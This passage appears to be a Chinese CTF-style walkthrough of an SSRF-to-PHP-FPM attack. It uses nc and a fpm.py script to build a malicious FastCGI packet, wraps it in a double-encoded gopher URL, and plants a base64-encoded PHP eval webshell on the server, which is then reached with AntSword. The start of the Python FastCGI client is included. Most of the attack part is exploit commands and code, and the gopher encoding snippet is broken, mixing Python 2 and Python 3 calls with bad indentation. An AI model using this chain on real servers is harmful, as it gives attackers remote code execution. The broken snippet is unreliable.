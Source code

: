 利用p神的脚本

我们在本机监听9000端口，然后运行`fpm.py`将恶意FastCGI协议报文数据打在本机的9000端口，保存为exp.txt

```
# 监听9000端口
nc -lvvp 9000 > exp.txt

# 运行`fpm.py`
python3 fpm.py 127.0.0.1 /var/www/html/index.php -c "<?php system('echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk 7Pz4 | base64 -d > /var/www/html/shel1.php');die('-----made by pniu----- ');?>"
```

然后构造gopher协议,二次编码

```python
from urllib import quote
with open('exp.txt') as f:
	pld = f.read()
 a="gopher://127.0.0.1:9000/_" + quote(pld)
print(urllib.parse.quote(a))

```

?url=传进去,连接蚁剑

python脚本

```
import socket
import random
import argparse
import sys
from io import BytesIO

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


```